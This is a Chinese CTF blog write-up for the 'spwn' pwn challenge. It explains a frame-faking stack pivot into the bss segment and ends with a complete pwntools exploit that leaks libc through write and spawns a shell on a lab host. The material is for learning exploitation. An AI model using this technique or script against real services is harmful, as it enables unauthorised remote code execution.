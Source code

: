 ```yaml
---
title: '[pwn] spwn WriteUp'
tags:
  - CTF
  - pwn
  - WriteUp
date: 2019-10-07 00:18:14
categories: CTF
abbrlink: 10070
---
```


这个题来自于[咲夜南梦](https://196011564.github.io/)师傅

## 分析

checksec 一下

![checksec](/blog/pics/20191007000.png)

然后 IDA 静态分析一下

![main](/blog/pics/20191007001.png)

![vul_function](/blog/pics/20191007002.png)

可以看到，在 main 中调用了 vul_function, 而在 vul_function 中有两次读取，第一次读取 0x200 字节到 bss 段，第二次读取到 stack 中

查看一下 stack 中 buf 相对于 ebp 的偏移为 0x18，而第二次读取的长度只有 0x20 所以只能覆盖到 ebp 和 ret addr，由于在栈处能够溢出的字节太少，不足以构造较长的 gadget，又看到第一次往 bss 读取时读取长度很充足，并且程序没有开启 PIE 保护，bss 段是知道地址的，于是考虑能否利用 bss 段实现攻击

注意到在 [CTF Wiki # frame faking](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop-zh/#frame-faking) 讲到了一种叫做 Frame Faking 的方法，即伪造栈帧，就恰巧是用于溢出字节较少且有其他可控制内存区域的情形的。仔细看完介绍后，大概理解是怎么回事了，利用两次 leave, ret (**函数正常返回一次，溢出控制返回地址指向 leave, ret 再一次**) 实现栈帧伪造。

主要思路有了之后写出漏洞利用脚本就简单了

## exp

```python
#! /usr/bin/python3
from pwn import *
from LibcSearcher import *

def leak(func_name, func_addr):
    libc = LibcSearcher(func_name, func_addr)
    libc_base = func_addr - libc.dump(func_name)
    sys_addr = libc_base + libc.dump("system")
    sh_addr = libc_base + libc.dump("str_bin_sh")
    return (sys_addr, sh_addr)

def main():
    elf = ELF("spwn")
    write_plt = elf.plt[b"write"]
    read_got = elf.got[b"read"]
    main_addr = 0x08048513
    leave_ret = 0x08048511
    bss_addr = 0x0804a300
    
    r = remote("192.168.136.129", 9999)
    
    payload = b"a"*4 + p32(write_plt) + p32(main_addr) + p32(1) + p32(read_got) + p32(4)
    r.sendafter("name?", payload)
    
    payload = b"a"*0x18 + p32(bss_addr) + p32(leave_ret)
    r.sendafter("say?", payload)
    
    read_leak = u32(r.recv(4))
    sys_addr, sh_addr = leak("read", read_leak)

    payload = b"a"*4 + p32(sys_addr) + p32(main_addr) + p32(sh_addr)
    r.sendafter("name?", payload)
    
    payload = b"a"*0x18 + p32(bss_addr) + p32(leave_ret)
    r.sendafter("say?", payload)
    
    r.interactive()

if __name__ == "__main__":
    context.log_level = "debug"
    main()

```

